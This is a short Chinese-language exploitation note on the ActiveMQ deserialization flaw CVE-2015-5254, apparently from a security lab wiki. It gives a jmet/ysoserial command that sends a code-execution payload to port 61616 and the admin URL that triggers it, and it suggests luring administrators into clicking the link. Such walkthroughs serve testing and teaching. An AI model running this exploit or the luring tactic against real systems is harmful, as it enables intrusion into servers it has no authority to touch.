 ```yaml
---
title: Apache-ActiveMQ
---
```


## 应用简介

[Apache ActiveMQ](http://activemq.apache.org/)是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件

它支持Java消息服务、集群、Spring Framework等

## [CVE-2015-5254]-ActiveMQ 反序列化

**漏洞概述**

```http
#影响范围
ActiveMQ < 5.13.0
```

ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类

攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象行任意代码

**漏洞利用**

1、构造可执行命令的序列化对象（ysoseria）

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用，首先下载jmet的jar文件，并在同目录下创建一个external文件夹

（否则可能会爆文件夹不存在的错误）

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载）

所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

```bash
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
#作为一个消息，发送给目标61616端口
```

此时会给目标ActiveMQ添加一个名为event的队列，可以通过以下路径看到这个队列中所有消息

```
http://your-ip:8161/admin/browse.jsp?JMSDestination=event
```

2、点击查看这条消息即可触发命令执行

通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。

在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发

或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发